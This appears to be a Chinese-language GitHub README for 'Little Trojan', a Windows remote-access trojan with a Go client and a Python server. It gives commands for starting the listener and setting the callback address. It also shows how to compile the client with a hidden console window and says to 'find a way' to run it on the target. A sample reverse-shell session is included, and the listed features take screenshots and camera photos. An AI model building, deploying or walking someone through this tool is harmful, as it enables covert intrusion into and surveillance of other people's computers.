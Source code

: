 # Little Trojan
## LittleTrojan是什么
* 是一个利用Golang和Python实现的Windows远程控制工具。
* Client使用Golang实现，Server使用python实现，两者通过socket套接字通信。
* Client通过反向连接客户端来反弹shell。
* 最终实现的目的是替代或者等同metasploit、cobalt strike等渗透测试工具。

## LittleTrojan使用方法
* 你可能需要使用VPS或者内网穿透等转发工具，确保客户端能够反向连接到你。
* 目前仅为Demo版本，暂不支持加密通信和自定义生成木马，以后会进行功能完善。
* 在你的远程机器上运行客户端，需要安装相应的python版本。
```bash
# 不传入参数就可以查看详细的操作，当出现错误，会提示错误类型
python Server2.py

                    DreamShell ---> HELP DOCUMENT
                    -----------------------------
                    Launch service:   Server -a [--addr] (you ip) -p [--port] (your port)
                    when in command:   [command]
                    when in shell:  [cmd-shell]  or  [bash-shell]
                    -----------------------------
                    Some useful commands:
                    exit --> close the handler and stop the client process
                    restart --> restart the handler
                    screenshot --> take a screenshot on the screen
                    camerashot --> take a photo use the camera on the client
The addr or port seems not useful!
Please try again!

# 直接通过参数来指定监听的地址（0.0.0.0表示一切）和监听的端口（4433端口）（端口需要在Init.go中进行修改）
python Server2.py -a 0.0.0.0 -p 4433
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
```
* 在Init.go文件中更改一下要连接的ip和端口
```go
client.connect("127.0.0.1", 4433)
```
* 在本地编译客户端或者在远程编译客户端，想办法在远程机器上面进行执行客户端。
```bash
go build GoTrojan -ldflags="-H windowsgui -w -s"
go_build_GoTrojan.exe
```
* 连接成功，服务端出现提示
```bash
0.0.0.0 4433
Service Launch! Listen on  0.0.0.0 : 4433
Starting convert with  ('127.0.0.1', 14083)
Tue May  2 09:38:13 2023
'127.0.0.1', 14083 (command)>shell
Starting shell.....
Tue May  2 09:38:22 2023
'127.0.0.1', 14083 (shell)>
```
